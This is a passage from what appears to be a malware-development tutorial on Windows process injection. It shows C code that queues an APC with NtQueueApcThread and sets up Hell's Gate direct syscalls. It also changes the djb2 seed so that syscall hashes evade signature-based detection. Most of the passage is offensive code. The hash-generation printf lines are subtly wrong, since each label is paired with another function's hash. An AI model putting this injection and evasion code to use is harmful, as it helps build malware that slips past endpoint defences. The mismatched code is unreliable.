 ```c
	if ((STATUS = NtQueueApcThread(hThread, pAddress, NULL, NULL, NULL)) != 0) {
		printf("[!] NtQueueApcThread Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");

	return TRUE;
}
```

### Implementation Using Hell's Gate

The last implementation for this module is using Hell's Gate. First, ensure that the same steps done to set up the Visual Studio project with SysWhispers3 are done here too. Specifically, enabling MASM and modifying the properties to set the ASM file to be compiled using the Microsoft Macro Assembler.

#### Updating The VX_TABLE Structure

```c
typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtWriteVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtQueueApcThread;
} VX_TABLE, * PVX_TABLE;
```

#### Updating Seed Value

A new seed value will be used to replace the [old one](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L93) to change the hash values of the syscalls. The djb2 hashing function is updated with the new seed value below.

```c
DWORD64 djb2(PBYTE str) {
	DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
	INT c;

	while (c = *str++)
		dwHash = ((dwHash << 0x5) + dwHash) + c;

	return dwHash;
}
```

The following `printf` statements should be added to a new project to generate the djb2 hash values.

```c
printf("#define %s%s 0x%p \n", "NtAllocateVirtualMemory", "_djb2", (DWORD64)djb2("NtCreateSection"));
printf("#define %s%s 0x%p \n", "NtWriteVirtualMemory", "_djb2", djb2("NtMapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtProtectVirtualMemory", "_djb2", djb2("NtUnmapViewOfSection"));
printf("#define %s%s 0x%p \n", "NtQueueApcThread", "_djb2", djb2("NtClose"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));
```
